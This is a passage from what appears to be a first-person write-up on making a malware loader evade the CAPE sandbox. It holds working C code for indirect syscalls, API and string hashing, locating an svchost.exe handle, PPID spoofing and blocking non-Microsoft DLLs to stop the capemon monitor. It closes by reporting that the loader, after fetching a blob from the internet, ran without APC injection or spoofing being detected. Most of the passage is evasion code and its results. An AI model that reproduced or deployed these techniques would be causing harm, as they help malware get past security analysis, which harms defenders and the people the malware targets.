

But the functions related to process-creation were still being monitored. I believe they provided the sandbox with process tree information which was correctly detected in this iteration as well.



## The process of hiding the Process

To evade the parent-child co-relation of processes, I planned to perform **PPID-spoofing** (PPID: Parent Process ID). My plan being to launch a non-suspicious process (here: `dllhost.exe`) as if it were started by a non-suspicious parent (here: `svchost.exe`).

The WinAPI function [`CreateProcessW`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw) expects [`STARTUPINFO`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfow) or [`STARTUPINFOEX`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-startupinfoexw) structure to provide with information relating to process creation. The `STARTUPINFOEX` structure is an extension of `STARTUPINFO` that adds an attribute list `LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList` for process/thread creation.

Using this attribute-list, one may provide a handle to a process that is to act as parent of the child process being created.

### Hunting the handle

To find the handle for parent process (`svchost.exe`), I had to enumerate through all running processes and find an `svchost.exe` process whose handle I could retrieve. I leveraged the Native API [`NtQuerySystemInformation`](https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntquerysysteminformation) as I had the code for indirect syscall already built.

I started with declaring the Native API's hash and `svchost.exe`'s hash to reduce the plain-string footprint.

```c
// All the syscalls that I'll need
typedef struct _SYSCALL_TABLE {
	// CODE MENTIONED BEFORE ...
	NT_SYSCALL NtQuerySystemInformation;
} SYSCALL_TABLE, * PSYSCALL_TABLE;
```

```c++
// define hash for parent process
constexpr ULONG	svchost_FnvvW = HashStringFowlerNollVoVariant1aW(L"svchost.exe");
```

Next, I searched for the SSN and the `syscall` instruction address for `NtQuerySystemInformation`.

```c
BOOL ResolveSyscalls(
	OUT PSYSCALL_TABLE*	ppSyscallTable
) {

	// CODE MENTIONED BEFORE ...

	if (!GetSyscallAddress(pNtdll, NtQuerySystemInformation_FnvvA, &pSysTable->NtQuerySystemInformation)) {
		DEBUG_PRINT("Failed to resolve NtQuerySystemInformation.");
		return FALSE;
	}
	DEBUG_PRINT("\"NtQuerySystemInformation\" syscall number: %d\t`syscall` instruction address: 0x%p", pSysTable->NtQuerySystemInformation.dwSSn, pSysTable->NtQuerySystemInformation.pSyscallInstAddress);

	*ppSyscallTable = pSysTable;

	return TRUE;
}
```

Finally, I was ready to implement a process-search logic that
- Enumerated through all the processes on the system
- Validated if the process name was `svchost.exe` using its hash
	- If true, it tried to open a handle to the process
		- If successful, it returned the handle
- Moved onto the next process

```c
BOOL GetPsuedoParentProcess(
	IN	PSYSCALL_TABLE	pSyscallTable,			// the syscall table with information for NtQuerySystemInformation
	IN	ULONG			uParentProcNameHash,	// the hash of target parent process
	OUT	PHANDLE			phProcess				// output (parent process's handle) to be returned
) {
	NTSTATUS					STATUS = STATUS_SUCCESS;
	BOOL						bSTATE = TRUE;
	PSYSTEM_PROCESS_INFORMATION pSystemProcInfo = NULL,
								pSystemProcInfoCopy = NULL;
	ULONG						SystemProcInfoSize = sizeof(SYSTEM_PROCESS_INFORMATION);

	pSystemProcInfo = (PSYSTEM_PROCESS_INFORMATION)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, SystemProcInfoSize);

	if (!pSystemProcInfo) {
		bSTATE = FALSE; goto _EoF;
	}

	HellsGate(pSyscallTable->NtQuerySystemInformation.dwSSn, pSyscallTable->NtQuerySystemInformation.pSyscallInstAddress);
	STATUS = HellDescent(SystemProcessInformation, pSystemProcInfo, SystemProcInfoSize, &SystemProcInfoSize);

	while (STATUS == STATUS_INFO_LENGTH_MISMATCH) {
		HeapFree(GetProcessHeap(), 0, pSystemProcInfo);

		pSystemProcInfo = (PSYSTEM_PROCESS_INFORMATION)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, SystemProcInfoSize);

		if (!pSystemProcInfo) {
			bSTATE = FALSE; goto _EoF;
		}

		HellsGate(pSyscallTable->NtQuerySystemInformation.dwSSn, pSyscallTable->NtQuerySystemInformation.pSyscallInstAddress);
		STATUS = HellDescent(SystemProcessInformation, pSystemProcInfo, SystemProcInfoSize, &SystemProcInfoSize);
	}

	if (STATUS != STATUS_SUCCESS) {
		bSTATE = FALSE; goto _EoF;
	}

	pSystemProcInfoCopy = pSystemProcInfo;
	do {
		if (pSystemProcInfo->ImageName.Length && RTIME_FnvHashW(pSystemProcInfo->ImageName.Buffer) == uParentProcNameHash) {
			DEBUG_PRINT("Found Parent Process PID: %d\n", (DWORD)pSystemProcInfo->UniqueProcessId);
			*phProcess = OpenProcess(PROCESS_CREATE_PROCESS, FALSE, (DWORD)pSystemProcInfo->UniqueProcessId);
			break;
		}
		pSystemProcInfo = (PSYSTEM_PROCESS_INFORMATION)((ULONG_PTR)pSystemProcInfo + pSystemProcInfo->NextEntryOffset);

	} while (pSystemProcInfo->NextEntryOffset != NULL);

	if (*phProcess == NULL) {
		bSTATE = FALSE; goto _EoF;
	}

_EoF:
	if (pSystemProcInfoCopy) {
		HeapFree(GetProcessHeap(), 0, pSystemProcInfoCopy);
	}

	return bSTATE;
}
```

Notice how it uses the HellsGate stubs for indirect call and `RTIME_FnvHashW` runtime-hash-calculation functions for hash comparison.

### Updating Child Process

Leveraging the attribute-list described earlier, I populated the parent process's handle through `STARTUPINFOEXW` structure using the [`InitializeProcThreadAttributeList`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist) and [`UpdateProcThreadAttribute`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute) functions.

- `InitializeProcThreadAttributeList` being used to populate the attribute list with default information.
- `UpdateProcThreadAttribute` being used to update the information as per need, here the parent process.

```c
BOOL CreateSuspendedProcess(
	IN	PH_API	pHashedApis,		// A collection of WINAPI functions resolved through compile-time API hashing
	IN	LPCWSTR	lpszProcessName,	// Process to be created
	IN	HANDLE	hParentProcess,		// Parent Process handle to be imitated
	OUT	PHANDLE	phProcess,			// Child Process handle
	OUT	PHANDLE	phThread,			// Child Process's main thread handle
	OUT	PDWORD	pdwProcessID		// Child Process's ID
) {
	BOOL	bSTATE = TRUE;
	WCHAR	lpszTargetProcessPath[MAX_PATH * 2];
	WCHAR	SysDir[MAX_PATH],
			WinDir[MAX_PATH];

	SIZE_T	sThreadAttrListSize = 0;

	STARTUPINFOEXW	Si = { 0 };
	PROCESS_INFORMATION Pi = { 0 };

	if (!GetEnvironmentVariableW(L"WINDIR", WinDir, MAX_PATH)) {
		DEBUG_PRINT("GetEnvironmentVariableW failed with error: %lu\n", GetLastError());
		bSTATE = FALSE;
		goto _EoF;
	}

	swprintf_s(SysDir, MAX_PATH, L"%s\\System32", WinDir);									// Eg: C:\Windows\System32, for current directory of child process
	swprintf_s(lpszTargetProcessPath, MAX_PATH * 2, L"%s\\%s", SysDir, lpszProcessName);	// Eg: C:\Windows\System32\Notepad.exe
	
	// This will fail with ERROR_INSUFFICIENT_BUFFER, but write the required size in `sThreadAttrListSize`
	InitializeProcThreadAttributeList(NULL, 1, 0, &sThreadAttrListSize);

	Si.lpAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sThreadAttrListSize);
	if (!Si.lpAttributeList) {
		bSTATE = FALSE; goto _EoF;
	}

	InitializeProcThreadAttributeList(Si.lpAttributeList, 1, 0, &sThreadAttrListSize);
	
	// PPID Spoofing
	if (!UpdateProcThreadAttribute(Si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL)) {
		DEBUG_PRINT("UpdateProcThreadAttribute failed with error: %lu\n", GetLastError());
		bSTATE = FALSE; goto _EoF;
	}

	Si.StartupInfo.cb = sizeof(STARTUPINFOEXW);

	if (!pHashedApis->pCreateProcessW(NULL, lpszTargetProcessPath, NULL, NULL, FALSE, DEBUG_PROCESS | EXTENDED_STARTUPINFO_PRESENT, NULL, SysDir, &Si, &Pi)) {
		DEBUG_PRINT("CreateProcessW failed with error: %lu\n", GetLastError());
		bSTATE = FALSE; goto _EoF;
	}

	*phProcess = Pi.hProcess;
	*phThread = Pi.hThread;
	*pdwProcessID = Pi.dwProcessId;

	// End of Function
_EoF:
	if (Si.lpAttributeList) {
		HeapFree(GetProcessHeap(), 0, Si.lpAttributeList);
	}
	if (*phProcess == NULL || *phThread == NULL) {
		bSTATE = FALSE;
	}
	return bSTATE;
}
```

I validated that the child process now points to `svchost.exe` process as parent process and shows `C:\Windows\System32` as current directory.



### The stump of the fallen tree

CAPE no longer showed the process tree from the loader binary.



But, it did detect the PPID spoofing.



I tweaked the `CreateSuspendedProcess` a little to use hash-based resolution for `InitializeProcThreadAttributeList` and `UpdateProcThreadAttribute`.



To no one's surprise, it did not affect the detection as CAPE performs runtime analysis. Still, it was good to have static signatures out of the way.

## Eliminating the sensor

CAPE uses the aptly named [`capemon.dll`](https://github.com/kevoreilly/capemon) for detections.

> Much of the functionality of CAPE is contained within the monitor; the CAPE debugger, extracted payloads, process dumps and import reconstruction are implemented within capemon. CAPE's loader is also part of this project.

If I limited loaded DLLs to only those signed by Microsoft, it would possibly stop CAPE from loading its DLL into my process. To test this thesis, all I needed was to extend the `UpdateProcThreadAttribute` to enable the mitigation policy to block non-microsoft DLLs (`PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON`). Following is the updated `CreateSuspendedProcess` function:

```c
BOOL CreateSuspendedProcess(
	IN	PH_API	pHashedApis,
	IN	LPCWSTR	lpszProcessName,
	IN	HANDLE	hParentProcess,
	OUT	PHANDLE	phProcess,
	OUT	PHANDLE	phThread,
	OUT	PDWORD	pdwProcessID
) {

	// CODE MENTIONED BEFORE ...

	pHashedApis->pInitializeProcThreadAttributeList(Si.lpAttributeList, 2, 0, &sThreadAttrListSize);
	
	// PPID Spoofing
	if (!pHashedApis->pUpdateProcThreadAttribute(Si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL)) {
		DEBUG_PRINT("UpdateProcThreadAttribute failed with error: %lu\n", GetLastError());
		bSTATE = FALSE; goto _EoF;
	}

	// Enable blocking of non-Microsoft signed DLLs
	DWORD64 dwPolicy = PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON;
	if (!pHashedApis->pUpdateProcThreadAttribute(Si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY, &dwPolicy, sizeof(DWORD64), NULL, NULL)) {
		DEBUG_PRINT("UpdateProcThreadAttribute failed with error: %lu\n", GetLastError());
		bSTATE = FALSE; goto _EoF;
	}


	Si.StartupInfo.cb = sizeof(STARTUPINFOEXW);

	if (!pHashedApis->pCreateProcessW(NULL, lpszTargetProcessPath, NULL, NULL, FALSE, DEBUG_PROCESS | EXTENDED_STARTUPINFO_PRESENT, NULL, SysDir, &Si, &Pi)) {
		DEBUG_PRINT("CreateProcessW failed with error: %lu\n", GetLastError());
		bSTATE = FALSE; goto _EoF;
	}

	// CODE MENTIONED BEFORE ...
}
```

The following screenshot shows the mitigation policy enabled for the child process.



## Final Showdown

Unlike the previous iterations, this mitigation allowed me to bypass the function traces for process-creation altogether.





CAPE did trace the calls to `UpdateProcThreadAttribute` to update child process and the `NtOpenProcess` call for resuming process, after the blob was fetched from internet.



But it was not a significant issue, as there were no detections of APC Injection or PPID Spoofing.

